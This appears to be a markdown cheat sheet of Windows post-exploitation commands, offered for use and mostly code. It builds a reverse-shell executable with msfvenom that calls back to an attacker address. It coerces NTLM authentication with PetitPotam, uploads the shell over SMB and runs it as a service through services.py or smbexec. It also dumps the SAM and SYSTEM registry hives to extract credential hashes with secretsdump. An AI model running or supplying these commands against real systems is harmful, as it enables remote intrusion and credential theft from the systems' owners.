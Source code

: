 # Windows

### Binary reverse shell
```
msfvenom -p windows/x64/shell_reverse_tcp -f exe LHOST=<IP> LPORT=33334 > reverse.exe
```

### PetimPotam

Coerce NTLM Auth
```bash
python3 PetitPotam.py -u USER -d DOMAIN -p="PASS" localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA IP
```

### Escape SMB Pseudoshell

1. You have socks samba proxy.
2. Generate the reverse shell
3. Upload
```
proxychains smbclient.py <IP>
# Select share and writable dir
$ put reverse.txt
```
4. Run via services.py
```
proxychains services.py <TARGET> -no-pass create -name revsvc -display "revsvc" -path "C:\reverse.exe"
proxychains services.py <TARGET> -no-pass start -name revsvc
```
Or use smbexec if it works
```
 proxychains smbexec.py <TARGET> -share ADMIN$ -shell-type powershell
```

### Manual SAM dump

```
reg save HKLM\SYSTEM C:\Temp\SYSTEM
reg save HKLM\SAM C:\Temp\SAM

# download via smbclient
secretsdump.py -sam ./SAM -system ./SYSTEM LOCAL
```
